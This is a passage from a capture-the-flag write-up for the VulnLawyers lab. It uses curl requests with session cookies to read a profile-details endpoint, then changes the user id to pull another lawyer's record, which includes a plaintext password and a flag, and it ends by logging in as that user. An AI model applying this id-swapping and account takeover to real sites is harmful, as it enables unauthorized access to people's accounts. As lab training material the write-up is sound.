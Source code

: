 Perhaps we can find something interesting in the source code. Let's use `curl`
to retrieve the data.
```
$ curl curl http://www.vulnlawyers.co.uk/lawyers-only-profile -H "Cookie: ctfchallenge=<your_ctf_cookie>; token=<your_lawyer_cookie>"

<script>
    $.getJSON('/lawyers-only-profile-details/4',function(resp){
        $('input[name="email"]').val( resp.email );
        $('input[name="name"]').val( resp.name );
    });
</script>
```

Oh would you look at that :sunglasses:! That's how our info was already filled in!
For some reason they use some other source than the
`data.vulnlawyers.co.uk/users` endpoint which we've seen before. Maybe this
contains different information.
```
$ curl http://www.vulnlawyers.co.uk/lawyers-only-profile-details/4 -H "Cookie: ctfchallenge=<your_ctf_cookie>; token=<your_lawyer_cookie>"

{
  "id": 4,
  "name": "Jaskaran Lowe",
  "email": "jaskaran.lowe@vulnlawyers.co.uk",
  "password": "summer"
}
```

Oh yes. Plain old passwords. Of course, they should have used the
`data.vulnlawyers.co.uk/users` API endpoint to retrieve that data. Let's access
*Shayne Cairns* profile details with the user `id` which we can find at
`data.vulnlawyers.co.uk/users`. Small note: that id was zero-indexed (Jaskaran's
`id` here is `4` while it was `3` before), this one isn't. Compensating for that
gives the following request.
```
$ curl http://www.vulnlawyers.co.uk/lawyers-only-profile-details/2 -H "Cookie: ctfchallenge=<your_ctf_cookie>; token=<your_lawyer_cookie>"

{
  "id": 2,
  "name": "Shayne Cairns",
  "email": "shayne.cairns@vulnlawyers.co.uk",
  "password": "w&#2a1^3p",
  "flag": "[^FLAG^NA_AH^FLAG^]"
}
```
Flag number five!

### Finishing Up (Exploitation)

This leaves us to the last flag. We now use the found credentials to log in as
Shayne Cairns, delete the case, and find the last flag :trophy:.

[^1]: [302 Found](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/302)
